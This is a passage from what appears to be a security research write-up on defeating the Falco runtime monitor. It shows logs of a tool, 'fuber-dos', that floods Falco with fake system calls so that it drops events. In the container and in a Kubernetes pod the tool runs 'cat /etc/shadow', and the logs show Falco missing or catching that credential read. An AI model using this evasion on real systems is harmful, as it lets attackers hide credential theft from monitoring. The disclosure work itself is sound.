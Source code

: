 ```
16:59:09.580277182: Debug Falco internal: syscall event drop. 759590 system calls dropped in last second. (ebpf_enabled=0 n_drops=759590 n_drops_buffer=759590 n_drops_bug=0 n_drops_pf=0 n_evts=1324594)
-----
[Container]
root@b2e38b90b032:/tmp/fubers# ./fuber-dos 300000 'cat /etc/shadow'
OUTPUT: root:*:18759:0:99999:7:::
...
-----
[Falco]
16:59:10.581941243: Debug Falco internal: syscall event drop. 209081 system calls dropped in last second. (ebpf_enabled=0 n_drops=209081 n_drops_buffer=209081 n_drops_bug=0 n_drops_pf=0 n_evts=292670)
16:59:39.630383698: Debug Falco internal: syscall event drop. 815406 system calls dropped in last second. (ebpf_enabled=0 n_drops=815406 n_drops_buffer=815406 n_drops_bug=0 n_drops_pf=0 n_evts=1261422)
16:59:40.636155254: Debug Falco internal: syscall event drop. 771462 system calls dropped in last second. (ebpf_enabled=0 n_drops=771462 n_drops_buffer=771462 n_drops_bug=0 n_drops_pf=0 n_evts=1164448)
```
### On a pod within a local cluster ran by Kubeadm
When running the utility on a pod within the Kubeadm cluster, 100K fake events seem to be enough to cause Falco to consistently drop events and bypass detection on an irregular basis. Out of 10 tries, 8 of them detected "Sensitive file opened" successfully:
```
[Pod]
$ kubeadm version
kubeadm version: &version.Info{Major:"1", Minor:"21", GitVersion:"v1.21.1", GitCommit:"5e58841cce77d4bc13713ad2b91fa0d961e69192", GitTreeState:"clean", BuildDate:"2021-05-12T14:17:27Z", GoVersion:"go1.16.4", Compiler:"gc", Platform:"linux/amd64"}
$ kubectl get pods
NAME                           READY   STATUS    RESTARTS   AGE
falco-l7l85                    1/1     Running   3          13d
frontend-5fd859dcf6-d9m7p      1/1     Running   3          13d
frontend-5fd859dcf6-nn9kr      1/1     Running   3          13d
frontend-5fd859dcf6-vqsv5      1/1     Running   3          13d
redis-master-f46ff57fd-r8z9g   1/1     Running   3          13d
redis-slave-597454578-l66rb    1/1     Running   3          13d
redis-slave-597454578-z25nw    1/1     Running   3          13d
$ kubectl exec -it frontend-5fd859dcf6-d9m7p bash
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl exec [POD] -- [COMMAND] instead.
root@frontend-5fd859dcf6-d9m7p:/var/www/html# cd /tmp
root@frontend-5fd859dcf6-d9m7p:/tmp# ./fuber-dos 10000 'cat /etc/shadow'
OUTPUT: root:*:16895:0:99999:7:::
...
-----
[Falco]
17:08:35.118134521: Warning Sensitive file opened for reading by non-trusted program (user=root user_loginuid=-1 program=cat command=cat /etc/shadow file=/etc/shadow parent=sh gparent=fuber-dos ggparent=bash gggparent=<NA> container_id=6ba4fc748b8c image=gcr.io/google-samples/gb-frontend) k8s.ns=default k8s.pod=frontend-5fd859dcf6-d9m7p container=6ba4fc748b8c k8s.ns=default k8s.pod=frontend-5fd859dcf6-d9m7p container=6ba4fc748b8c
-----
[Pod]
root@frontend-5fd859dcf6-d9m7p:/tmp# ./fuber-dos 100000 'cat /etc/shadow'
OUTPUT: root:*:16895:0:99999:7:::
-----
[Falco]
17:11:51.948645683: Debug Falco internal: syscall event drop. 474099 system calls dropped in last second. (ebpf_enabled=0 n_drops=474099 n_drops_buffer=474099 n_drops_bug=0 n_drops_pf=0 n_evts=807893)
```

[^1]: https://man7.org/linux/man-pages/man2/dup2.2.html
[^2]: https://hub.docker.com/repository/docker/sshayb/fuber
[^3]: https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py
[^4]: https://sysdig.com/blog/cve-2021-3156-sudo-falco/
[^5]: https://falco.org/docs/rules/supported-fields/
[^6]: https://braiins.com/stratum-v2
[^7]: https://github.com/draios/sysdig/pull/655/commits/209888d7f37c4357b164ca12248a38bac9de2e4b
[^8]: https://www.youtube.com/watch?v=rBqBrYESryY
[^9]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
